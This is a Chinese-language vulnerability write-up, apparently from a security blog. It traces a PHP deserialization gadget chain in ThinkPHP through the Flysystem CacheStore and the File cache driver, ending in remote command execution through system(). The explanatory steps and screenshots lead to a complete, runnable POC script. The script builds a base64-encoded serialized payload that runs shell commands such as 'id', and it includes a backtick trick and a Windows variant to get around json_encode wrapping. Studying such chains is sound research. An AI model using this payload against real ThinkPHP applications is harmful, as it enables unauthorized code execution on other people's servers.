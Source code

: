![](https://p4.ssl.qhimg.com/t01e10318c06fc8ee67.png)

> 跟进 `src/think/cache/driver/File.php` 中的 `set()` 方法，发现有一个 `serialize()` 方法

![](https://p4.ssl.qhimg.com/t010c8ad728a9784003.png)

> 继续跟进 `serialize()` 方法，发现 `$this->options` 参数是可控的，从而可以利用 `$this->options['serialize'][0]` 来执行任意函数

![](https://p5.ssl.qhimg.com/t011295e42a82b0605d.png)

> 接着看看需要的参数 `$data` 的来源，溯源发现先是来源于 `$value` 的传值，接着回到 `save()` 方法的 `$contents` 参数，由于 `$contents` 参数来源于 `getForStorage()` 方法，需要经过 `json_encode()` 方法，所以需要使 `json_encode` 后的数据被当作代码执行
> 由于 json_encode 的缘故，命令被方括号包裹导致无法正常执行，在 Linux 环境中可以使用 `command` 这样的形式使被包裹的 command 优先执行

![](https://p4.ssl.qhimg.com/t01dc82c0e2e4e8a708.png)

#### POC
```php
<?php 

namespace League\Flysystem\Cached\Storage {
	abstract class AbstractCache {
		protected $autosave = false;
    	protected $complete = "`id`";
        // protected $complete = "\"&whoami&" ;
        // 在Windows环境中反引号无效，用&替代
	}
}

namespace think\filesystem {
	use League\Flysystem\Cached\Storage\AbstractCache;
	class CacheStore extends AbstractCache {
		protected $key = "1";
		protected $store;
		public function __construct($store="") {
			$this->store = $store;
		}
	}
}

namespace think\cache {
	abstract class Driver {
		protected $options = ["serialize"=>["system"],"expire"=>1,"prefix"=>"1","hash_type"=>"sha256","cache_subdir"=>"1","path"=>"1"];
	}
}

namespace think\cache\driver {
	use think\cache\Driver;
	class File extends Driver{}
}

namespace {
	$file = new think\cache\driver\File();
	$cache = new think\filesystem\CacheStore($file);
	echo base64_encode(serialize($cache));
}
?>
```
